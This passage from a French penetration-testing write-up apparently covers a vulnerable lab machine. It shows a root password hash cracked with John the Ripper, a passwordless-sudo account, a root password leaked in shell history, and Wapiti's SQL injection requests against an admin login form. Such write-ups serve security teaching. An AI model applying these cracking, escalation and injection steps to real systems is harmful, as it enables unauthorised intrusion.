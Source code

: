 Le mot de passe se casse facilement :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt  hash.txt 
Loaded 1 password hash (FreeBSD MD5 [128/128 AVX intrinsics 12x])
guesses: 0  time: 0:00:00:02 0.53% (ETA: Mon Jul  7 22:12:54 2014)  c/s: 35325  trying: 015922726 - 015924737
root1234         (root)
guesses: 1  time: 0:00:07:08 DONE (Mon Jul  7 22:13:45 2014)  c/s: 35408  trying: root12 - root162net725
```

Alternativement il est possible de passer root via le compte *achen*.  

Premièrement ce dernier a des accès encore plus ouverts (lancement de commandes en tant que root sans avoir à saisir le moindre mot de passe) :  

```plain
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

En plus dans son historique de commande on retrouve le mot de passe root :  

```plain
--- snip ---
sudo sy
su
root1234
su
--- snip ---
```

Autres vecteurs d'attaque web
-----------------------------

*Wapiti* a identifié une faille d'injection SQL dans la section */admin/* inutilement protégée par javascript :  

```plain
Injection MySQL dans http://192.168.1.99/admin/index.php via une injection dans le paramètre username
Evil request:
POST /admin/index.php HTTP/1.1
Host: 192.168.1.99
Referer: http://192.168.1.99/admin/
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

Injection MySQL dans http://192.168.1.99/admin/index.php via une injection dans le paramètre password
Evil request:
POST /admin/index.php HTTP/1.1
Host: 192.168.1.99
Referer: http://192.168.1.99/admin/
Content-Type: application/x-www-form-urlencoded

username=default&password=%BF%27%22%28
```

Il y a aussi la section */calendar/* plombée par d'autres injections SQL.  

Bref tout aussi simple que le précédent.

*Published July 08 2014 at 21 52*